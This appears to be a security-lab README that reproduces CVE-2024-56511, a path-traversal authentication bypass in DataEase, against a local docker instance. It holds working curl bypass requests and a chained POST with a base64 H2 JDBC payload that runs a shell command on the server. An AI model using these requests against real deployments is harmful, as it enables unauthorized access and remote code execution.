



# DataEase Authentication Bypass via Whitelist Path Traversal (CVE-2024-56511)

[中文版本(Chinese version)](README.zh-cn.md)

DataEase is an open-source data visualization and analysis platform widely used for building BI dashboards.

DataEase versions up to and including 2.10.3 (fixed in 2.10.4) contain an authentication bypass in `io.dataease.auth.filter.TokenFilter`. The filter pulls the path via `request.getRequestURI()` and hands the raw, unnormalized value to `WhitelistUtils.match()`. That helper only strips the configured `server.servlet.context-path` before testing a fixed list of whitelisted prefixes — `/geo/`, `/customGeo/`, `/map/`, `/oauth2/`, `/websocket`, and so on — and never resolves `..` segments. By prepending a whitelisted prefix and then traversing out of it, an attacker can convince the filter that the URI targets a public endpoint while Tomcat normalises the path and ultimately routes the request to the genuine, protected controller. The bypass becomes practical whenever a deployment sets `server.servlet.context-path` to anything other than the default (for example `/dataease`, which is typical when DataEase is served behind a path-based reverse proxy alongside other internal apps), because the normalised path must still contain the context-path prefix for Spring to dispatch it. On vulnerable versions this collapses the entire `/de2api` surface — user management, data sources, dashboards, exports — into unauthenticated access.

References:

- <https://github.com/dataease/dataease/security/advisories/GHSA-9f69-p73j-m73x>
- <https://nvd.nist.gov/vuln/detail/CVE-2024-56511>
- <https://securityonline.info/cve-2024-56511-critical-authentication-bypass-vulnerability-in-dataease/>

## Environment Setup

Execute the following command to start a vulnerable DataEase 2.10.3 instance with `server.servlet.context-path=/dataease` configured (a common production setup when multiple internal apps are multiplexed behind a single reverse proxy):

```
docker compose up -d
```

After the server starts, the DataEase login page is served at `http://your-ip:8100/dataease`.

## Vulnerability Reproduction

First confirm that the target endpoint is protected. Requesting `/dataease/de2api/datasource/types` directly reaches `TokenFilter`, which finds no `X-DE-TOKEN` header, throws `DEException("token is empty for uri {/dataease/de2api/datasource/types}")`, and Spring Boot turns that into an HTTP 500 response (the exact body depends on the client's `Accept` header — Burp or a browser receives Spring's Whitelabel Error Page shown below, while a bare `curl` receives the equivalent JSON variant):

```
$ curl -sS -D - --path-as-is http://your-ip:8100/dataease/de2api/datasource/types
HTTP/1.1 500
...
{"timestamp":"...","status":500,"error":"Internal Server Error","path":"/dataease/de2api/datasource/types"}
```



Now resend the exact same logical request, but prefix it with the whitelisted `/geo/` directory and a traversal back into the context path. The `--path-as-is` flag is required so that curl transmits the literal `/geo/../dataease/...` without collapsing the dot-segments client-side (when using Burp Repeater the raw URL in the request line is preserved automatically):

```
$ curl -sS -D - --path-as-is 'http://your-ip:8100/geo/../dataease/de2api/datasource/types'
HTTP/1.1 200
...
{"code":0,"msg":null,"data":["folder","API","Excel","mysql","impala","mariadb","StarRocks","es","doris","TiDB","oracle","pg","redshift","db2","ck","h2","sqlServer","mongo"]}
```



The response switches from `500 Internal Server Error` to `200 OK` and contains the actual list of supported data source types harvested from the back-end — solid proof that `TokenFilter` was bypassed. Behind the scenes `WhitelistUtils.match()` saw the literal URI `/geo/../dataease/de2api/datasource/types`, noted that it starts with the whitelisted prefix `/geo/`, and returned `true`, so the filter chain short-circuited without ever checking for a token. Tomcat then normalised the path to `/dataease/de2api/datasource/types`, stripped the `/dataease` context-path, and dispatched the request to `DatasourceController#types()` as if the caller were authenticated.

The same trick works against every other `/de2api` endpoint (user management, data sources, dashboards, exports), so chaining the bypass with post-authentication vulnerabilities such as [CVE-2025-32966](../CVE-2025-32966) elevates the overall impact to pre-authentication remote code execution:

```
POST /geo/../dataease/de2api/datasource/validate HTTP/1.1
Host: your-ip:8100
Content-Type: application/json
Content-Length: 424

{"name":"p1","type":"h2","configuration":"eyJ1cmxUeXBlIjogImpkYmNVcmwiLCAiamRiY1VybCI6ICJqZGJjOmgyOm1lbTpwd247TU9ERT1NU1NRTFNlcnZlcjtJTklUPUNSRUFURSBBTElBUyBFWEVDIEFTICQkdm9pZCBleGVjKCkgdGhyb3dzIGphdmEuaW8uSU9FeGNlcHRpb24geyBSdW50aW1lLmdldFJ1bnRpbWUoKS5leGVjKG5ldyBTdHJpbmdbXXtcInRvdWNoXCIsXCIvdG1wL3B3bmVkXCJ9KVxcOyB9JCRcXDtDQUxMIEVYRUMoKSIsICJ1c2VybmFtZSI6ICIiLCAicGFzc3dvcmQiOiAiIiwgImRyaXZlciI6ICJvcmcuaDIuRHJpdmVyIn0="}
```

Confirm the command ran inside the DataEase container:

```
docker compose exec web ls -la /tmp/pwned
```


